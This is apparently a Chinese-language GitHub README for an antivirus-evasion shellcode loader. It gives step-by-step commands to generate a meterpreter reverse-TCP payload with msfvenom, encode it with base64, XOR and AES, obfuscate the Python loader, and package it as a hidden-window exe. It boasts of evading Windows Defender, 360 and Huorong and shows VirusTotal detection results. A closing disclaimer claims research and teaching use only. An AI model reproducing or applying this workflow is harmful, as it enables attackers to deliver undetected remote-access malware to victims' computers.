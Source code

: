 # python-shellcode-loader

<a name="ptTMq"></a>
## 简单介绍
免杀方式 msfvenom生成raw格式的shellcode-->base64-->XOR-->AES<br />将python代码缩小并混淆最后生成exe<br />目前过DF、360和火绒  virustotal：7/66过卡巴斯基、迈克菲等
<a name="H2jnt"></a>
## 获取项目
git clone [https://github.com/HZzz2/python-shellcode-loader.git](https://github.com/HZzz2/python-shellcode-loader.git)<br />cd python-shellcode-loader
<a name="CuRMC"></a>
## 生成shellcode
#生成shellcode<br />`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`
<a name="rNUTI"></a>
## base64编码shellcode并替换jiami.py中的值
#base64<br />`base64 -w 0 -i rev.raw > rev.bs64`<br />`cat rev.bs64`<br />复制base64的值替换jiami.py中payload       也就是 第二十五行 sc='payload' 
<a name="uXwYU"></a>
## 加密base64并替换main.py中的值
#加密base64后的shellcode<br />`python3 jiami.py`<br />#会生成一个aes-xor.txt的文件，复制文件里的值(经过XOR和AES加密后)<br />复制的值替换main.py中的payload   也就是第四十一行 jiami_sc='payload'
<a name="RhzZp"></a>
## 缩小和混淆py代码
<a name="K5dP3"></a>
### 缩小python代码
`pyminify main.py --output main-mini.py`
<a name="PTqkf"></a>
### 混淆main-mini.py中的python代码
[https://pyob.oxyry.com/](https://pyob.oxyry.com/)  在线混淆<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654524591386-7385c972-05e4-4761-bac3-311ae4ab2b0c.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=531&id=u32a8913b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=664&originWidth=1919&originalType=binary&ratio=1&rotation=0&showTitle=false&size=192572&status=done&style=none&taskId=uf5d03036-4fc8-4141-aec3-77143fc268e&title=&width=1535.2)<br />将混淆后的代码保存到一个文件中，比如文件名为:main-mini-ob.py
<a name="s0SXj"></a>
## 打包成可执行文件exe
#打包成exe<br />`pyinstaller.exe -Fw -i .\setting.ico --key=leslie .\main-mini-ob.py`<br />-F 打包为单文件 -w 不显示窗口   -i ico图标文件  --key  加密字节码的密钥<br />等待打包完成。。。。<br />打包好后的可执行程序在dist目录中
<a name="dr6Hv"></a>
## 流程图
![](https://cdn.nlark.com/yuque/0/2022/jpeg/26697321/1654524239719-d5ff881a-602c-4508-81b8-8e14c0d41595.jpeg)
<a name="SyXYB"></a>
## 检测图


### DF
![image](https://user-images.githubusercontent.com/22775890/172209887-134b5107-353b-45e2-a3b6-9e65b5189b8c.png)


### 火狐
![image](https://user-images.githubusercontent.com/22775890/172209706-1634bd75-7fe4-4844-bf95-bb8e3dea0540.png)


### 360杀毒
![image](https://user-images.githubusercontent.com/22775890/172209912-86663b43-9afe-40ec-ba1a-dd6951f04ac3.png)


### 360安全卫士云查杀
![image](https://user-images.githubusercontent.com/22775890/172209928-b96f0201-2b4d-4efb-bf4c-33df8ed3ce03.png)


### virustotal
![image](https://user-images.githubusercontent.com/22775890/172209945-6aa0f8d1-dbe2-443d-9bf1-b127fe271aa9.png)


https://user-images.githubusercontent.com/22775890/172209225-080c2549-45cc-4135-a907-38738ab42df5.mp4



## 免责声明
仅供安全研究与教学之用，如果使用者将其做其他用途，由使用者承担全部法律及连带责任，本人不承担任何法律及连带责任。











